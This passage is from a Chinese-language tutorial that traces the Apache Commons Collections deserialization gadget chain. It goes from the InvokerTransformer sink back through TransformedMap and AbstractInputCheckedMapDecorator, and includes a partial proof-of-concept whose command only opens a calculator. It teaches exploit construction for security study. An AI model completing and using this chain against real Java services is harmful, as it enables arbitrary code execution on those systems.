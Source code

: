  <font color="#FF0033">**这可以执行任意命令或代码的方法不就来了嘛！！！也就是我们要找的Sink！**</font>接下来就是一步步回溯，寻找合适的子类，构造漏洞链，直到找到重写了readObject的类。
## 2、Chain and Source
### 2.1 回溯寻找哪个类的哪个方法调用了InvokerTransformer#transform()---TransformerMap#checkSetValue()
同理，直接对`InvokerTransformer`的`transform`右键Find Usages，可以发现TransformerMap类下有三个方法都调用了，我们直接看checkSetValue方法：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/20054b785213d443f3bd0e22fe79b76e.png)

直接查看其源码，该方法以及构造方法都是protected权限的，不能从外部访问，那么我们就需要找到一个可以内部实例化的方法：
```java
    ...
    ...
    protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
    ...
    ...
    protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```
继续在TransformerMap类里面找，可以找到一个public的decorate方法，可以实例化一个对象，解决了TransformerMap类内部的valueTransformer变量赋值的问题：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9e3007072e3849d38011d5f1d4b5a0e7.png)
至此，利用链为：`TransformerMap#decorate(map,null,InvokerTransformer)=>InvokerTransormer#transform`，对应poc如下：

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class test01 {
    public static void main(String[] args) throws Exception{
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokertransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
      
        HashMap<Object,Object> map = new HashMap<>();
        Map transformedmap = TransformedMap.decorate(map,null,invokertransformer);
    }
}

```
### 2.2 回溯寻找谁调用了TransformerMap#checkSetValue方法
同样的方法，找到了AbstractInputCheckedMapDecorator类的setValue：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/df7e58291f02923e145bf8afd8ea0ba8.png)
查看源码，定义了一个副类为`MapEntry`，其中`Entry`是`Map`中的一个键值对，同时`MapEntry`重写了原本`Map`类中的`setValue`方法，而且TransformerMap也继承了AbstractInputCheckedMapDecorator类，那么我们继续找谁调用了这个setValue方法。
